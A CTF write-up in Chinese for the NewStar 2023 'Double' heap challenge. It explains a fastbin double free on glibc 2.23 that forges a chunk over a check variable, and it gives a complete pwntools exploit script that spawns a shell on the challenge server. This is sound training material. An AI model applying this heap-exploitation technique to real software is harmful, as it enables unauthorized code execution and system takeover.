 ```yaml
---
title: newstar2023 week4 - Double
date: 2023/10/17 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - heap - fastbin
    - House of Spirit
thumbnail: /assets/newstar2023/doubleFree.png
excerpt: 利用fastbin double free漏洞伪造堆块，实现shell获取。
---
```


## 文件分析

下载`Double`, NX on, PIE off, Canary on, RELRO full  
ghidra分析为64位程序

## 解题思路

堆入门题，打开了我学习堆的大门

题目要求`check_num[2] = 0x666`就可以给shell，由于目标libc是2.23，
所以可以直接利用fastbin的double free，伪造一个块到check_num上
（size已经帮我们伪造好了）

## 前置知识

fastbin double free由于检查少，因此较为简单，但是仍要注意：
必须隔一个释放，且必须把需要伪造的块头处理好

![double free legend](/assets/newstar2023/doubleFree.png)

## EXPLOIT

```python
from pwn import *
sh = remote('node4.buuoj.cn', 29665)

def add(idx:int, con:bytes=b'what'):
    sh.recvuntil(b'>')
    sh.sendline(b'1')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())
    sh.recvuntil(b'ent')
    sh.sendline(con)

def rem(idx:int):
    sh.recvuntil(b'>')
    sh.sendline(b'2')
    sh.recvuntil(b'idx')
    sh.sendline(str(idx).encode())

def chk():
    sh.recvuntil(b'>')
    sh.sendline(b'3')

add(0)
add(1)
rem(0)
rem(1)
rem(0)

add(0, p64(0x602060)) # fd override (chunk 0 now points to fake chunk)
add(1)
add(2)

add(3, p64(0x666)) # fake chunk allocated
chk()
sh.interactive()
```

Done.
